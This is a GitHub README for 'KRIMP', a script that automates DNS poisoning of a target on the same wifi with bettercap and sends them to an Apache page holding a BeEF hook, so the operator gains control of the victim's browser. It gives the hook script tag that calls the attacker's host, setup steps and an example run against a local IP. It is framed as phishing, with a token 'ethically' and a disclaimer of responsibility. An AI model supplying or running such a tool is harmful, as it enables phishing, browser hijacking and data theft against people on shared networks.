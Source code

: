# KRIMP
```
                   ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
                   ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
                   ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
                  ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
                 ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
                   ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
                   ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
                   ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
                   ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered. 

This tool automates the process of DNS poisoning a target on your wifi, by doing this you can make a custom URL and redirecting your IP, which is hosting apache, to this URL. Once the target is on this page, you will have full access to their browser because of the beEF hook.  

**This tool is in its alpha stage, more automation will come**

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:

`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

## Running the script


`git clone https://github.com/SysGerm/krimp.git`

`chmod +x install.sh`

`./install.sh`

`chmod +x krimp.sh`

`./krimp.sh DOMAIN LOCAL-TARGET-IP`

Example: 

`./krimp.sh sysgerm.com 192.168.0.4`
### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

#### Responsibility
I am not responsible for any actions u take with this tool.

